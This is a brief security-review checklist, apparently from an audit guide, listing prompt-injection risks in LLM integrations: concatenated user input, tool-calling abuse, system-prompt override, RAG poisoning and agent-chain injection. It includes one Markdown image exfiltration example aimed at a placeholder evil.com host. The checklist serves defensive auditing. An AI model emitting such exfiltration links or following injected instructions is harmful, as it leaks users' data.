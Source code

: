 For each LLM integration identified, check for these vulnerabilities:

#### 2.2.1 String Concatenation Issues

- **Location:** Check for direct string concatenation of user input with prompts
- **Pattern:** Look for patterns like `prompt = "Translate: " + user_input`
- **Risk:** Direct prompt injection through malicious user input

#### 2.2.2 Markdown Exfiltration Vectors

- **Location:** Check if the system renders Markdown from LLM outputs
- **Pattern:** Look for unfiltered Markdown rendering, especially images
- **Risk:** Data exfiltration via `![](https://evil.com?data=...)`

#### 2.2.3 Tool/Function Calling Security

- **Location:** Check LLM tool/function calling implementations
- **Pattern:** Look for unrestricted tool access or missing validation
- **Risk:** Malicious instructions triggering sensitive actions

#### 2.2.4 Insufficient Input Sanitization

- **Location:** Check all points where external data enters prompts
- **Pattern:** Missing or weak input validation/sanitization
- **Risk:** Injection of system prompt overrides

#### 2.2.5 System Prompt Protection

- **Location:** Check system prompt handling
- **Pattern:** Relying on "prompt begging" or weak instructions
- **Risk:** System prompt override attacks

#### 2.2.6 Output Validation

- **Location:** Check how LLM outputs are used
- **Pattern:** Direct execution or rendering without validation
- **Risk:** Code injection, XSS, or command execution

#### 2.2.7 MCP Security Issues

- **Location:** Check for Model Context Protocol usage
- **Pattern:** Multiple MCP servers with dangerous combinations
- **Risk:** Combining servers that create the lethal trifecta

#### 2.2.8 Retrieval Augmented Generation (RAG) Issues

- **Location:** Check vector database and retrieval systems
- **Pattern:** Untrusted documents in retrieval corpus
- **Risk:** Poisoned context injection

#### 2.2.9 Multi-Agent Security

- **Location:** Check agent-to-agent communication
- **Pattern:** Agents trusting outputs from other agents
- **Risk:** Cascading prompt injection through agent chains
